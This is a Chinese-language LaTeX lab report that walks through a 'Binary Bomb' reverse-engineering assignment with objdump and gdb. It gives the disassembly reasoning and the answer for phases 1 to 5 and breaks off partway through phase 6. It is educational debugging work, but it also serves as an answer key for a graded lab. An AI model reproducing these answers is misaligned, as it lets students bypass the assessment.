\documentclass{paper}
\usepackage[UTF8]{ctex}
\usepackage{graphicx}  %插入图片
\usepackage[export]{adjustbox}
\usepackage{float}
\usepackage{geometry}
\usepackage{amssymb}
\usepackage{indentfirst}
% \usepackage{biblatex}
\usepackage[ruled,linesnumbered]{algorithm2e}
\usepackage[colorlinks,linkcolor=blue,bookmarksopen=true,bookmarksnumbered=true]{hyperref}
\usepackage{pythonhighlight}
\usepackage{color}
\usepackage{ulem}

\setlength{\parindent}{4em}
\setlength{\parskip}{1em}
\geometry{a4paper,scale=0.8}
\SetKwInput{KwIn}{输入}
\SetKwInput{KwOut}{输出}

% \usepackage{listings}
\usepackage{ctex}

% 用来设置附录中代码的样式

\usepackage{listings}
% \usepackage{color}
\usepackage{fontspec}

% 定义Monaco字体
\newfontfamily\Monaco{Monaco}

% 配置lstlisting环境,设置Monaco字体
\lstset{
    language=C,
    basicstyle=\linespread{1.0}\small\Monaco,
    keywordstyle=\color{blue}\bfseries,
    commentstyle=\color{blue},
    stringstyle=\color{purple},
    numbers=left,
    numberstyle=\tiny\Monaco,
    stepnumber=1,
    backgroundcolor=\color{white},
    frame=single,
    frameround=false,
    showspaces=false,
    showstringspaces=false,
    breaklines=true
}

\begin{document}

% 目录
\tableofcontents
\newpage

\section{实验二:Binary Bomb}

\subsection{实验概述}

在本次实验中,我需要使用上课所学的内容拆除一个二进制炸弹(Binary Bomb)。二进制炸弹的拆除过程一共有六个阶段,分别是\verb|phase_1|~\verb|phase_6|。在拆除炸弹的每个阶段,我需要分别输入一个字符串,并且使得在每个阶段中二进制炸弹不会调用\verb|explode_bomb|函数。在本次实验中,拆除炸弹的难度随着每个阶段递增。每个阶段考察的内容如下所示。

\begin{itemize}
    \item 阶段 1:字符串比较
    \item 阶段 2:循环
    \item 阶段 3:条件/分支
    \item 阶段 4:递归调用和栈
    \item 阶段 5:指针
    \item 阶段 6:链表/指针/结构
\end{itemize}

除此之外,本实验还有一个隐藏阶段,需要在阶段四输入特定的字符串进行才会出现。
本实验要求我熟练的掌握和使用GDB调试工具以及OBJDUMP工具。其中GDB调试工具用于调试程序,OBJDUMP工具则用于显示二进制炸弹的反汇编代码。

\subsection{实验内容}

在本次实验中,拆除炸弹的过程主要分为七个阶段,其中第七个阶段是隐藏阶段,将在进行完六个主要阶段后开展。

为了便于后续实验能够顺利地进行,在开展实验之前,我首先需要使用\verb|objdump|工具将可执行文件的反汇编代码保存下来。具体方法是使用如下语句:

\verb|objdump -D ./bomb > ./bomb.s|

使用上述语句即可将反汇编之后输出的结果保存在\verb|bomb.s|文件中了。其中\verb|-D|选项表示将可执行文件中所有的节进行反汇编。

接着我还需要分析实验包中的\verb|bomb.c|文件,便于后续拆除炸弹。\verb|bomb.c|文件主要的代码部分如下所示:

\begin{lstlisting}
input = read_line();
phase_1(input);
phase_defused();
printf("Phase 1 defused. How about the next one?\n");

input = read_line();
phase_2(input);
phase_defused();
printf("That's number 2.  Keep going!\n");

input = read_line();
phase_3(input);
phase_defused();
printf("Halfway there!\n");

input = read_line();
phase_4(input);
phase_defused();
printf("So you got that one.  Try this one.\n");

input = read_line();
phase_5(input);
phase_defused();
printf("Good work!  On to the next...\n");

input = read_line();
phase_6(input);
phase_defused();
\end{lstlisting}

分析上述代码可知,每一个\verb|phase|函数的输入参数都一样,都是一个字符串\verb|input|。而\verb|input|字符串又是\verb|read_line|函数的返回值,即从标准输入中送入程序的一个字符串。要将炸弹拆除,我只需要在六个阶段分别输入相应的字符串即可。

\subsubsection{阶段1 字符串匹配}
\begin{enumerate}
    \item 任务描述
    
            找出\verb|phase_1|中使用的程序中保存的字符并输入相同的字符串以通过本关卡。
    
    \item 实验设计

            在反汇编文件\verb|bomb.s|中查找\verb|phase_1|的汇编代码。找到程序中保存的字符串的地址并用\verb|gdb|打印出相应的字符串。
            
    \item 实验过程

            \begin{enumerate}
                \item 寻找\verb|phase_1|函数的代码并查看字符串的地址
                        
                        在vscode中按下\verb|Ctrl+F|按键,并在弹出的提示框中输入\verb|phase_1|即可定位到\verb|phase_1|的代码段。代码段如下所示:

                        \begin{lstlisting}
08048b33 <phase_1>:
 8048b33:	83 ec 14             	sub    $0x14,%esp
 8048b36:	68 24 a0 04 08       	push   $0x804a024 // 参数:保存的字符串
 8048b3b:	ff 74 24 1c          	push   0x1c(%esp) // 输入的字符串
 8048b3f:	e8 e6 04 00 00       	call   804902a <strings_not_equal>
 8048b44:	83 c4 10             	add    $0x10,%esp
 8048b47:	85 c0                	test   %eax,%eax
 8048b49:	74 05                	je     8048b50 <phase_1+0x1d>
 8048b4b:	e8 d1 05 00 00       	call   8049121 <explode_bomb>
 8048b50:	83 c4 0c             	add    $0xc,%esp
 8048b53:	c3                   	ret
                        \end{lstlisting}

                        函数的第一行\verb|sub $0x14,%esp|首先为\verb|phase_1|分配了\verb|0x14|的栈帧空间。此时\verb|%esp+0x14|即是函数的返回地址,而\verb|%esp+0x18|则是\verb|phase_1|函数的输入,即\verb|main.c|文件中看到的\verb|input|参数。

                        在函数的第二行中\verb|push $0x804a02|将保存的字符串地址压入栈中,作为\verb|strings_not_equal|函数的一个参数。此时\verb|%esp|的值减少了了\verb|0x4|,\verb|input|的地址变为\verb|%esp+0x18+0x4 = %esp+0x1c|。

                        接着,在函数的第三行中,\verb|push 0x1c(%esp)|将\verb|input|压入栈中,作为\verb|strings_not_equal|函数的另一个参数。

                \item 使用\verb|gdb|调试程序,并查看\verb|0x804a024|地址下字符串的值。
                        
                        首先使用以下命令进入\verb|gdb|交互模式:

                        \verb|gdb ./bomb|

                        接着使用以下命令查看\verb|0x804a024|地址下字符串的值:

                        \begin{lstlisting}
(gdb) x /s 0x804a024
0x804a024:      "I am just a renegade hockey mom."
                        \end{lstlisting}

                        由\verb|gdb|输出的结果可知,"I am just a renegade hockey mom."即是我们需要输入的字符串。

            \end{enumerate}

    \item 实验结果
            
            将上述字符串通输入到\verb|ans.txt|中并运行程序,通过了第一个关卡。

            \begin{lstlisting}
$ echo "I am just a renegade hockey mom." >> ans.txt
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
            \end{lstlisting}

\end{enumerate}

\subsubsection{阶段2 循环结构}
\begin{enumerate}
\item 任务描述

分析\verb|phase_2|代码,并从循环结构中分析出需要输入的数字以破解本关卡。

\item 实验设计

本阶段实验主要分为以下几个步骤:

\begin{enumerate}
\item 找出需要输入的数字个数;
\item 找到数字存放的位置;
\item 找出所需要输入的数字具体的值。 
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 找出需要输入的数字个数

查看\verb|phase_2|反汇编代码可以发现以下用于读取数字的函数\verb|read_six_numbers|,相关代码如下所示:

\begin{lstlisting}[label={Read},caption={Read}]
8048b6e:	e8 d3 05 00 00       	call   8049146 <read_six_numbers>
8048b73:	83 c4 10             	add    $0x10,%esp
8048b76:	83 7c 24 04 01       	cmpl   $0x1,0x4(%esp)
\end{lstlisting}

通过函数的名称很容易知道我们需要输入的数字个数是\verb|6|个。

\item 找到数字存放的位置

在\verb|read_six_numbers|函数返回后,可以发现,在代码\ref{Read}中的地址\verb|0x8048b76|处将\verb|0x4(%esp)|与\verb|0x1|作比较,因此我们可以合理推测出所读入的数字存放在\verb|0x4+%esp|附近。

接着使用\verb|gdb|验证上述猜想:

\begin{lstlisting}[language=C]
$ gdb ./bomb
(gdb) b *0x8048b76 // 上述代码中的cmpl 0x1, 0x4(%esp)语句处设置断点
Breakpoint 1 at 0x8048b76
(gdb) r ans.txt // ans中已经保存了第一关的答案
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
1 1 4 5 1 4 // 第二关的输入测试

Breakpoint 1, 0x08048b76 in phase_2 ()
(gdb) x /6uw 0x4+$esp // 通过观察0x4+$esp中的内容
0xffffc954:     1       1       4       5
0xffffc964:     1       4
\end{lstlisting}

通过观察\verb|0x4+$esp|中的内容可以发现,我们输入的数字存放在以\verb|0x4+$esp|为首地址的连续内存中。

\item 找出所需要输入的数字具体的值 

接着分析代码段,找出第一个数字的值:

\begin{lstlisting}
8048b76:	83 7c 24 04 01       	cmpl   $0x1,0x4(%esp) // 第一个数字
8048b7b:	74 05                	je     8048b82 <phase_2+0x2e>
8048b7d:	e8 9f 05 00 00       	call   8049121 <explode_bomb>
8048b82:	8d 5c 24 04          	lea    0x4(%esp),%ebx
\end{lstlisting}

上述代码段的逻辑十分简单,即:若第一个数字等于\verb|0x1|则跳过\verb|explode_bomb|函数。因此,我们需要输入的第一个数字是\verb|1|。

分析接下来的循环结构代码,得出剩下数字的值:

\begin{lstlisting}
8048b82:	8d 5c 24 04        lea    0x4(%esp),%ebx // 首地址
8048b86:	8d 74 24 18        lea    0x18(%esp),%esi // 尾地址
8048b8a:	8b 03              mov    (%ebx),%eax // loop start
8048b8c:	01 c0              add    %eax,%eax
8048b8e:	39 43 04           cmp    %eax,0x4(%ebx)
8048b91:	74 05              je     8048b98 <phase_2+0x44>
8048b93:	e8 89 05 00 00     call   8049121 <explode_bomb>
8048b98:	83 c3 04           add    $0x4,%ebx
8048b9b:	39 f3              cmp    %esi,%ebx
8048b9d:	75 eb              jne    8048b8a <phase_2+0x36> // loop end
\end{lstlisting}

由\verb|0x18 = 24 = 6*sizeof(int)|可知,\verb|0x18+%esp|是第六个数字的地址。分析上述代码:进入循环前程序先将数组的首地址存放在\verb|%ebx|中,将数组的尾地址存放在\verb|%esi|中。进入循环后,程序将当前数字存放在\verb|%eax|中,并将\verb|2*%eax|与下一个数字(\verb|0x4(%ebx)|)进行比较,若两者相等,则跳过\verb|explode_bomb|。因此剩下的数字的值分别是前一个数字的两倍。

综合上述分析可知,由于第一个数字是\verb|1|,因此接下来的每一个数字分别是\verb|2、4、8、16、32|。

\end{enumerate}

\item 实验结果

将第二关的答案输入\verb|ans.txt|中并运行程序:

\begin{lstlisting}
$ echo "1 2 4 8 16 32" >> ans.txt
$./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
\end{lstlisting}

顺利通过!

\end{enumerate}

\subsubsection{阶段3 条件分支}
\begin{enumerate}
\item 任务描述

找出代码段中的条件分支,并通过输入正确的数字破解关卡。

\item 实验设计

本阶段实验主要分为以下几个步骤:
\begin{enumerate}
\item 判断第一个参数的范围,并在该范围内随便选取一个数;
\item 使用gdb找出给定第一个参数后,第二个参数的值。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 判断第一个参数的范围

在\verb|phase_3|的开头部分有以下代码段:
\begin{lstlisting}
8048bd9:	e8 32 fc ff ff       	call   8048810 <__isoc99_sscanf@plt>
8048bde:	83 c4 10             	add    $0x10,%esp
8048be1:	83 f8 01             	cmp    $0x1,%eax // 参数需要多于一个
8048be4:	7f 05                	jg     8048beb <phase_3+0x34>
8048be6:	e8 36 05 00 00       	call   8049121 <explode_bomb>
8048beb:	83 7c 24 04 07       	cmpl   $0x7,0x4(%esp) // 第一个参数<=7
8048bf0:	77 66                	ja     8048c58 <phase_3+0xa1>
...
8048c58:	e8 c4 04 00 00       	call   8049121 <explode_bomb>
\end{lstlisting}

根据前面关卡的分析,很容易知道\verb|0x4+%esp|是第一个参数的地址。在代码段中地址\verb|0x8048beb|处将\verb|0x4(%esp)|的值和\verb|0x7|作比较,如果第一个参数比7大,就会跳转到\verb|0x8048c58|处,即\verb|call| \verb|explode_bomb|语句处。因此我们可以确定第一个参数需要小于或等于\verb|7|。接着,根据比较指令使用的是\verb|ja|指令,可以知道第一个参数是无符号整形数,因此第一个参数还需要大于或等于\verb|0|。

下面从$\{0, 1\dots7\}$内尝试选取第一个参数,不妨选1。

\item 在给定第一个参数后,确定第二个参数的值

接着分析代码段:

\begin{lstlisting}
8048bf2:  8b 44 24 04          	mov    0x4(%esp),%eax //将第一个参数赋给%eax
8048bf6:  ff 24 85 80 a0 04 08 	jmp    *0x804a080(,%eax,4) // 根据%eax转跳
8048bfd:  b8 77 01 00 00       	mov    $0x177,%eax
8048c02:  eb 05                	jmp    8048c09 <phase_3+0x52>
8048c04:  b8 00 00 00 00       	mov    $0x0,%eax
8048c09:  2d ac 01 00 00       	sub    $0x1ac,%eax
8048c0e:  eb 05                	jmp    8048c15 <phase_3+0x5e>
8048c10:  b8 00 00 00 00       	mov    $0x0,%eax
8048c15:  05 fa 01 00 00       	add    $0x1fa,%eax
8048c1a:  eb 05                	jmp    8048c21 <phase_3+0x6a>
8048c1c:  b8 00 00 00 00       	mov    $0x0,%eax
8048c21:  2d c9 03 00 00       	sub    $0x3c9,%eax
8048c26:  eb 05                	jmp    8048c2d <phase_3+0x76>
8048c28:  b8 00 00 00 00       	mov    $0x0,%eax
8048c2d:  05 c9 03 00 00       	add    $0x3c9,%eax
8048c32:  eb 05                	jmp    8048c39 <phase_3+0x82>
8048c34:  b8 00 00 00 00       	mov    $0x0,%eax
8048c39:  2d c9 03 00 00       	sub    $0x3c9,%eax
8048c3e:  eb 05                	jmp    8048c45 <phase_3+0x8e>
8048c40:  b8 00 00 00 00       	mov    $0x0,%eax
8048c45:  05 c9 03 00 00       	add    $0x3c9,%eax
8048c4a:  eb 05                	jmp    8048c51 <phase_3+0x9a>
8048c4c:  b8 00 00 00 00       	mov    $0x0,%eax
8048c51:  2d c9 03 00 00       	sub    $0x3c9,%eax
8048c56:  eb 0a                	jmp    8048c62 <phase_3+0xab>
8048c58:  e8 c4 04 00 00       	call   8049121 <explode_bomb>
8048c5d:  b8 00 00 00 00       	mov    $0x0,%eax
8048c62:  83 7c 24 04 05       	cmpl   $0x5,0x4(%esp)
8048c67:  7f 06                	jg     8048c6f <phase_3+0xb8>
8048c69:  3b 44 24 08          	cmp    0x8(%esp),%eax // 将第二个参数与%eax比较
8048c6d:  74 05                	je     8048c74 <phase_3+0xbd>
8048c6f:  e8 ad 04 00 00       	call   8049121 <explode_bomb>
8048c74:  8b 44 24 0c          	mov    0xc(%esp),%eax
\end{lstlisting}

上述代码首先根据\verb|%eax|的值跳转\verb|0x804a080|中存储的地址,接着进行一系列的跳转改变\verb|%eax|的值。最后将第二个参数(\verb|0x8(%esp)|)与\verb|%eax|作比较,若两个数相等,则跳过\verb|explode_bomb|。

分析上述转跳表的逻辑看似是本关卡的必经之路,但我们很容易发现:虽然转跳表改变了\verb|%eax|的值,我们只需要在最后保证第二个参数的值与转换后的\verb|%eax|一样就行了。因此我们假定第一个参数为\verb|1|,并在\verb|0x8048c69|处打上断点,在断点处查看\verb|%eax|的值即可。

\begin{lstlisting}
gdb ./bomb
(gdb) b *0x8048c69
Breakpoint 1 at 0x8048c69
(gdb) r ans.txt                                             
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
1 0 // 测试输入,假设第一个参数为1

Breakpoint 1, 0x08048c69 in phase_3 ()
(gdb) p $eax
$1 = -891 // 第二个参数需为-891
\end{lstlisting}

使用\verb|gdb|调试后可以和轻松的知道第二个参数为\verb|-891|,而不需要分析分支转调表。

\end{enumerate}

\item 实验结果

将第三关的答案输入\verb|ans.txt|中并运行程序即可顺利通过:

\begin{lstlisting}
$ echo "1 -891" >> ans.txt
$./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
\end{lstlisting}

\end{enumerate}

\subsubsection{阶段4 递归调用}
\begin{enumerate}
\item 任务描述

查看反汇编代码中递归函数的逻辑以及期望的返回值,用C语言复现递归函数并遍历所有输入找到期望的返回值。

\item 实验设计

\begin{enumerate}
\item 查看\verb|phase_4|的反汇编代码,并确定输入参数的类型、范围以及数量;
\item 查看期待的递归函数\verb|func4|的返回值;
\item 分析\verb|func4|函数并使用C语言复现;
\item 遍历函数的输入,找出期望的返回值对应的输入。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看\verb|phase_4|的反汇编代码,并确定输入参数的类型、范围以及数量 \label{l2}

查看汇编代码中读取输入的部分,如下所示:
\begin{lstlisting}
8048cfb: 50              push   %eax
8048cfc: 68 ef a1 04 08  push   $0x804a1ef // 格式化字符串
8048d01: ff 74 24 2c     push   0x2c(%esp)
8048d05: e8 06 fb ff ff  call   8048810 <__isoc99_sscanf@plt>
8048d0a: 83 c4 10        add    $0x10,%esp
8048d0d: 83 f8 02        cmp    $0x2,%eax // 需要输入两个参数
\end{lstlisting}

根据上述代码分析,可以使用\verb|gdb|查看位于\verb|0x804a1ef|格式化字符串:
\begin{lstlisting}
$ gdb ./bomb
(gdb) x /s 0x804a1ef
0x804a1ef:      "%d %d"
\end{lstlisting}
可以确定,本关卡要求输入的参数为两个整形数字。

继续分析代码:
\begin{lstlisting}
8048d12: 83 7c 24 04 0e cmpl $0xe,0x4(%esp) // 第一个参数<= 0xe
8048d17: 76 05          jbe  8048d1e <phase_4+0x3b> // jbe:第一个参数为无符号数
8048d19: e8 03 04 00 00 call 8049121 <explode_bomb>
8048d1e: 83 ec 04       sub  $0x4,%esp
\end{lstlisting}
可以确定第一个参数(\verb|0x4(%esp)|)的范围是$\{x \in \mathcal{Z} | 0 \leq x \leq 14\}$(\verb|0xe=14|)。

根据以下代码可以直接确定第二个参数的值:
\begin{lstlisting}
8048d36: 83 7c 24 08 1b cmpl   $0x1b,0x8(%esp) // 第二个参数为27
8048d3b: 74 05          je     8048d42 <phase_4+0x5f>
8048d3d: e8 df 03 00 00 call   8049121 <explode_bomb>
8048d42: 8b 44 24 0c    mov    0xc(%esp),%eax
\end{lstlisting}
当\verb|0x8(%esp)|(即第二个参数)的值为\verb|0x1b=27|时,跳过\verb|explode_bomb|。因此,第二个参数为\verb|27|。


\item 查看期待的递归函数\verb|func4|的返回值

找到调用函数\verb|func4|后使用返回值\verb|%eax|的代码段:
\begin{lstlisting}
8048d29: e8 5c ff ff ff  call   8048c8a <func4>
8048d2e: 83 c4 10        add    $0x10,%esp
8048d31: 83 f8 1b        cmp    $0x1b,%eax // func4 returns 27
8048d34: 75 07           jne    8048d3d <phase_4+0x5a>
...
8048d3d: e8 df 03 00 00  call   8049121 <explode_bomb>
\end{lstlisting}
分析上述代码段可知,函数\verb|func4|需要返回\verb|0x1b=27|才能跳过爆炸。

\item 分析函数\verb|func4|接收的参数

找到调用函数\verb|func4|前的部分代码:
\begin{lstlisting}
8048d1e: 83 ec 04        sub    $0x4,%esp
8048d21: 6a 0e           push   $0xe
8048d23: 6a 00           push   $0x0
8048d25: ff 74 24 10     push   0x10(%esp) // 输入字符串中的第一个参数
8048d29: e8 5c ff ff ff  call   8048c8a <func4>
\end{lstlisting}
分析上述代码可知,\verb|func4|一共接收三个参数,分别是\verb|0x10(%esp)|、\verb|0x0|以及\verb|0xe|。我们输入的第一个参数的位置本来是\verb|0x4+%esp|,但由于在调用\verb|func4|函数之前\verb|%esp|的值减少了\verb|0x4|,并且还将两个数(\verb|0xe|与\verb|0x0|)进行了压栈,因此\verb|0x10(%esp)|即是我们输入字符串中的第一个参数(\verb|0x10=0x4+0x4+0x4+0x4|)。

考虑到\verb|C|调用约定中函数参数使用反向压栈的方式,调用\verb|func4|函数的\verb|C|语句为:

\verb|func4(param1, 0, 14);|

其中,\verb|param1|是我们从输入字符串的第一个参数。

\item 分析\verb|func4|函数并使用C语言复现

分析参数在\verb|func4|中存放的位置:
\begin{lstlisting}
8048c8f: 8b 54 24 10     mov    0x10(%esp),%edx // p1=param1
8048c93: 8b 74 24 14     mov    0x14(%esp),%esi // p2=0
8048c97: 8b 4c 24 18     mov    0x18(%esp),%ecx // p3=14
\end{lstlisting}
从上述代码中不难看出,输入的三个参数分别存放在\verb|%edx|、\verb|%esi|以及\verb|%ecx|中。

接着分析参数在\verb|func4|中的计算过程:
\begin{lstlisting}
8048c9b: 89 c8     mov    %ecx,%eax // %eax=p3
8048c9d: 29 f0     sub    %esi,%eax // %eax=p3-p2
8048c9f: 89 c3     mov    %eax,%ebx // %ebx=p3-p2
8048ca1: c1 eb 1f  shr    $0x1f,%ebx // %ebx>>=31,即%ebx=(p3-p2<0?1:0)
8048ca4: 01 d8     add    %ebx,%eax // %eax=p3-p2+(p3-p2<0?1:0)
8048ca6: d1 f8     sar    %eax // %eax=(p3-p2+(p3-p2<0?1:0))/2
8048ca8: 8d 1c 30  lea    (%eax,%esi,1),%ebx // %ebx=(p3-p2+(p3-p2<0?1:0))/2+p2
\end{lstlisting}
经过参数一系列的转化,最终得到了\verb|%ebx|的值。这个值十分重要,因为\sout{这是我历经千辛万苦得出} \sout{的结论},接下来的代码段中会根据\verb|%ebx|的值进行转调并递归。

接着分析递归调用的转调代码:
\begin{lstlisting}
8048cab: 39 d3           cmp    %edx,%ebx // p1>%ebx?
8048cad: 7e 15           jle    8048cc4 <func4+0x3a>
8048caf: 83 ec 04        sub    $0x4,%esp
8048cb2: 8d 43 ff        lea    -0x1(%ebx),%eax
8048cb5: 50              push   %eax
8048cb6: 56              push   %esi
8048cb7: 52              push   %edx
8048cb8: e8 cd ff ff ff  call   8048c8a <func4>
8048cbd: 83 c4 10        add    $0x10,%esp
8048cc0: 01 d8           add    %ebx,%eax // %eax=func4(p1, p2, ebx-1)+ebx;
8048cc2: eb 19           jmp    8048cdd <func4+0x53>
8048cc4: 89 d8           mov    %ebx,%eax
8048cc6: 39 d3           cmp    %edx,%ebx // p1<%ebx?
8048cc8: 7d 13           jge    8048cdd <func4+0x53>
8048cca: 83 ec 04        sub    $0x4,%esp
8048ccd: 51              push   %ecx
8048cce: 8d 43 01        lea    0x1(%ebx),%eax
8048cd1: 50              push   %eax
8048cd2: 52              push   %edx
8048cd3: e8 b2 ff ff ff  call   8048c8a <func4>
8048cd8: 83 c4 10        add    $0x10,%esp
8048cdb: 01 d8           add    %ebx,%eax// %eax=func4(p1, ebx+1, p3)+ebx;
\end{lstlisting}
分析上述代码,并结合前面对\verb|ebx|的分析,不难得出\verb|func4|的\verb|C|语言代码:
\begin{lstlisting}
int func4(int p1, int p2, int p3)
{
    int ebx = (p3-p2+(p3-p2<0?1:0))/2+p2;
    if (p1 == ebx)
        return p1;
    if (p1 < ebx)
        return func4(p1, p2, ebx-1) + ebx;
    if (p1 > ebx)
        return func4(p1, ebx+1, p3) + ebx;
}
\end{lstlisting}

\item 遍历函数的输入,找出期望的返回值对应的输入

根据\ref{l2}中的分析可知,第一个参数的范围是$\{0,1\dots14\}$,第二个参数为\verb|0|,第三个参数为\verb|14|。因此我们只需要遍历第一个参数即可得出返回值为\verb|27|时对应的输入。

在\verb|main|函数中:
\begin{lstlisting}
int main(){
    for (int p1 = 0; p1 <= 14; ++p1){
        int ret = func4(p1, 0, 14);
        if (ret == 27){
            printf("p1 = %d, ret = %d\n", p1, ret);
            break;
        }
    }
    return 0;
}
\end{lstlisting}
将\verb|main|函数与\verb|func4|函数写入\verb|analyze_phase_4.c|,编译并运行:
\begin{lstlisting}
$ gcc analyze_phase_4.c -o main
$ ./main
p1 = 9, ret = 27
\end{lstlisting}
可以知道,输入的第一个参数为\verb|9|。

\end{enumerate}

\item 实验结果

将参数\verb|9|与\verb|27|输入到\verb|ans.txt|中并运行程序:
\begin{lstlisting}
$ echo "9 27" >> ans.txt
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
\end{lstlisting}
\sout{历经千辛万苦终于}顺利通过!

\end{enumerate}

\subsubsection{阶段5 指针}
\begin{enumerate}
\item 任务描述

分析第五关的反汇编代码段,分析循环结构的逻辑,找出指针转跳表并确定参数的值。

\item 实验设计

本实验主要分成以下几个步骤:
\begin{enumerate}
\item 查看需要输入的参数类型与数量;
\item 分析循环过程的代码;
\item 查看指针转跳的路径以及第一个参数的值;
\item 确定第二个参数的值。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看需要输入的参数类型、范围与数量

查看代码段中读取输入的部分:
\begin{lstlisting}
8048d70: 50              push   %eax
8048d71: 68 ef a1 04 08  push   $0x804a1ef // 格式化字符串的地址
8048d76: ff 74 24 2c     push   0x2c(%esp)
8048d7a: e8 91 fa ff ff  call   8048810 <__isoc99_sscanf@plt>
\end{lstlisting}
使用\verb|gdb|查看位于\verb|0x804a1ef|处的格式化字符串的内容:
\begin{lstlisting}
$ gdb ./bomb
(gdb) x /s 0x804a1ef
0x804a1ef:      "%d %d"
\end{lstlisting}
根据\verb|gdb|的输出,我们可以确定本关卡需要输入的字符串为两个整数。

\item 分析循环过程的代码\label{l3}

查看循环部分代码段:
\begin{lstlisting}
8048d8c:8b 44 24 04          mov  0x4(%esp),%eax
8048d90:83 e0 0f             and  $0xf,%eax
8048d93:89 44 24 04          mov  %eax,0x4(%esp) // p1 = p1 % 16
8048d97:83 f8 0f             cmp  $0xf,%eax // p1 = 15就爆炸
8048d9a:74 2e                je   8048dca <phase_5+0x72> // explode
8048d9c:b9 00 00 00 00       mov  $0x0,%ecx // ecx=0
8048da1:ba 00 00 00 00       mov  $0x0,%edx // edx=0
8048da6:83 c2 01             add  $0x1,%edx // edx+=1 (loop start)
8048da9:8b 04 85 a0 a0 04 08 mov  0x804a0a0(,%eax,4),%eax // p1=array[p1]
8048db0:01 c1                add  %eax,%ecx // ecx+=p1
8048db2:83 f8 0f             cmp  $0xf,%eax // p1=15就出去
8048db5:75 ef                jne  8048da6 <phase_5+0x4e> // (loop end)
\end{lstlisting}
上述代码首先将第一个参数\verb|p1|取模\verb|16|。在循环内部,\verb|p1|根据存放在\verb|0x804a0a0|处的转跳表进行转跳,并在\verb|p1|的值变为\verb|15|时退出循环。\verb|%ecx|中存放的是\verb|p1|经历的各个值的和,\verb|%ebx|中存放的是转跳的次数。

\item 确定指针转跳的路径以及第一个参数的值

查看存放在\verb|0x804a0a0|处的转跳表:
\begin{lstlisting}
(gdb) p *0x804a0a0@16
$1 = {10, 2, 14, 7, 8, 12, 15, 11, 0, 4, 1, 13, 3, 9, 6, 5}
\end{lstlisting}
循环结束后有如下代码:
\begin{lstlisting}
8048dbf: 83 fa 0f       cmp    $0xf,%edx  // edx=15才不爆炸
8048dc2: 75 06          jne    8048dca <phase_5+0x72> // explode
...
8048dca: e8 52 03 00 00 call   8049121 <explode_bomb>
\end{lstlisting}
由上述代码可知,循环结束后\verb|%edx|的值为\verb|15|才不会爆炸,而\verb|%edx|中存放的是转跳的次数,因此上述转跳需要进行\verb|15|次。又由于\verb|p1|等于15的时候才会退出循环,因此本次实验要求我们经过\verb|15|次转跳后使得\verb|p1|的值为\verb|15|。
根据\verb|p1|的最终值\verb|15|以及转跳次数,可是反向退出\verb|p1|的转跳路径:

\verb|5->12->3->7->11->13->9->4->8->0->10->1->2->14->6->15|

由此,我们得到\verb|p1|的初始值为\verb|5|,考虑到\verb|p1|在进入循环之前对\verb|16|取模,因此\verb|p1|可以是模\verb|16|后为\verb|5|的任何数。

\item 确定第二个参数的值

分析关于第二个参数的代码:
\begin{lstlisting}
8048dc4: 3b 4c 24 08     cmp   0x8(%esp),%ecx // ecx=p2才不爆炸
8048dc8: 74 05           je    8048dcf <phase_5+0x77>
8048dca: e8 52 03 00 00  call  8049121 <explode_bomb>
8048dcf: 8b 44 24 0c     mov   0xc(%esp),%eax
\end{lstlisting}
由上述代码很容易得出,第二个参数\verb|p2|的值需要与循环后的\verb|%ecx|相等,\verb|explode_bomb|函数才不会被调用。由\ref{l3}中的分析可知,\verb|%ecx|中的值为第一个参数\verb|p1|转跳路径上各个值的和(不包括初始值),即:

\verb|sum(12, 3, 7, 11, 13, 9, 4, 8, 0, 10, 1, 2, 14, 6, 15) = 115|

因此第二个参数的值为\verb|115|。

\end{enumerate}

\item 实验结果

将参数\verb|5|与\verb|115|输入到\verb|ans.txt|中并运行程序:
\begin{lstlisting}
$ echo "5 115" >> ans.txt
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next....
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段6 链表/指针/结构}
\begin{enumerate}
\item 任务描述

分析代码段中的结构体,以及各个部分中代码对结构体的操作,并写出相应的\verb|C|语言代码,分析所需要的输入。

\item 实验设计

本次实验主要分为以下几个步骤:
\begin{enumerate}
\item 分析需要输入的数据类型以及数量;
\item 分析第一个大循环以及大循环内的小循环;
\item 分析第二个循环;
\item 分析第三个循环;
\item 查看链表的各个节点;
\item 分析第四个循环;
\item 分析第五个循环;
\item 设计实验相应的输入。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 分析需要输入的数据类型以及数量

查看读取数据部分相关代码:
\begin{lstlisting}
8048dff: e8 42 03 00 00  call   8049146 <read_six_numbers>
8048e04: 83 c4 10        add    $0x10,%esp
8048e07: be 00 00 00 00  mov    $0x0,%esi
\end{lstlisting}
根据函数名\verb|read_six_numbers|很容易知道本关要求输入六个数字。

\item 分析第一个大循环以及大循环内的小循环
\begin{lstlisting}
8048e07: be 00 00 00 00 mov  $0x0,%esi
8048e0c: 8b 44 b4 0c    mov  0xc(%esp,%esi,4),%eax // 大循环 start
8048e10: 83 e8 01       sub  $0x1,%eax
8048e13: 83 f8 05       cmp  $0x5,%eax // 每个数字都要小于或等于6
8048e16: 76 05          jbe  8048e1d <phase_6+0x38>
8048e18: e8 04 03 00 00 call 8049121 <explode_bomb>
8048e1d: 83 c6 01       add  $0x1,%esi
